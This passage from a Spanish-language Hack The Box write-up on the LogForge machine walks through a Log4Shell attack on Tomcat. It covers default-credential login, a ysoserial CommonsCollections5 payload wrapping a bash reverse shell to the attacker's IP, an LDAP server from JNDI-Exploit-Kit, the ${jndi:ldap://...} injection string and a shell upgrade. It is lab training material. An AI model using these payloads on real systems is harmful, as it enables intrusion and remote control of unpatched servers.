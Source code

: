 Me pide autenticación, así que pruebo con las credenciales por defecto (tomcat:tomcat)

Como se utiliza por detrás la librería Log4j, pruebo a efectuar un Log4shell. Me intento conectar a mi equipo por un puerto a modo de traza

<img src="/writeups/assets/img/LogForge-htb/5.png" alt="">

Y recibo la petición

```null
nc -nlvp 1389
listening on [any] 1389 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.138] 45408
0
 ` 
```

Clono el repositorio [JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit) y el [ysoserial-modified]() de Github

```null
git clone https://github.com/pimps/JNDI-Exploit-Kit
git clone https://github.com/pimps/ysoserial-modified.git
```

Esta última me sirve para crear un payload serializado que interprete Log4j. En este caso, solo va a funcionar el CommonsCollections5. Para poder ejecutarlo sin problemas, hay que utilizar JAVA11

```null
java -jar ysoserial-modified.jar CommonsCollections5 bash "bash -i >& /dev/tcp/10.10.16.3/443 0>&1" > payload.ser
```

Monto el servicio LDAP con JNDI-Exploit-Kit

```null
java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -L 0.0.0.0:1389 -P /opt/ysoserial-modified/target/payload.ser
```

Ejecuto el payload para la versión 1.7, en mi caso ```${jndi:ldap://10.10.16.3:1389/vv2wyv}```

Y gano acceso al sistema

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.138] 45736
bash: cannot set terminal process group (787): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@LogForge:/var/lib/tomcat9$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
tomcat@LogForge:/var/lib/tomcat9$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
tomcat@LogForge:/var/lib/tomcat9$ export TERM=xterm
tomcat@LogForge:/var/lib/tomcat9$ export SHELL=bash
tomcat@LogForge:/var/lib/tomcat9$ stty rows 55 columns 209
```
